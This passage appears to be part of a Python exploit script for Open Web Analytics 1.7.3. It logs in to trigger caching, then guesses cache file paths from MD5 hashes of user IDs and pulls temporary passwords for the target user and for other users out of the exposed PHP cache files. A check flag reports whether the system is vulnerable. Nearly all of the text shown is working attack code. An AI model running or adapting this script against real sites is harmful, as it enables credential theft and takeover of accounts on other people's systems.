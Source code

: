 ```python
else:
   print_message('Connected to "{url}" successfully!'.format(url=base_url), "SUCCESS")

if 'Open Web Analytics' not in mainpage_request.text:
   print_message('Could not confirm whether this website is hosting OWA! Continuing exploitation...', "WARNING")
elif 'version=1.7.3' not in mainpage_request.text:
   print_message('Could not confirm whether this OWA instance is vulnerable! Continuing exploitation...', "WARNING")
else:
   print_message('The webserver indicates a vulnerable version!', "ALERT")

try:
   data = {
      "owa_user_id": username, 
      "owa_password": username, 
      "owa_action": "base.login"
   }
   session.post(login_url, data=data, proxies=proxies)
except Exception as e:
   print_message('An error occurred during the login attempt!', "ERROR")
   print(e)
   exit()
else:
   print_message('Attempting to generate cache for "{username}" user'.format(username=username), "INFO")

print_message('Attempting to find cache of "{username}" user'.format(username=username), "INFO")

found = False

for key in range(10):
   user_id = 'user_id' + str(key)
   userid_hash = hashlib.md5(user_id.encode()).hexdigest() 
   filename = userid_hash + '.php'
   cache_url = '{base_url}owa-data/caches/{key}/owa_user/{filename}'.format(base_url=base_url,key=str(key),filename=filename)
   cache_request = requests.get(cache_url, proxies=proxies)
   if cache_request.status_code != 200:
      continue;
   cache_raw = cache_request.text
   cache = get_cache_content(cache_raw)
   cache_username = get_cache_username(cache)
   if cache_username != username:
      print_message('The temporary password for a different user was found. "{username}": {temppass}'.format(username=cache_username,temppass=get_cache_temppass(cache)), "INFO")
      continue;
   else:
      found = True
      break
if not found:
   print_message('No cache found. Are you sure "{username}" is a valid user?'.format(username=username), "ERROR")
   exit()

cache_temppass = get_cache_temppass(cache)
print_message('Found temporary password for user "{username}": {temppass}'.format(username=username,temppass=cache_temppass), "INFO")

if args.check:
   print_message('The system appears to be vulnerable!', "ALERT")
   print_message('Remove -c from your command if you wish to exploit the system!', "INFO")
   exit()
```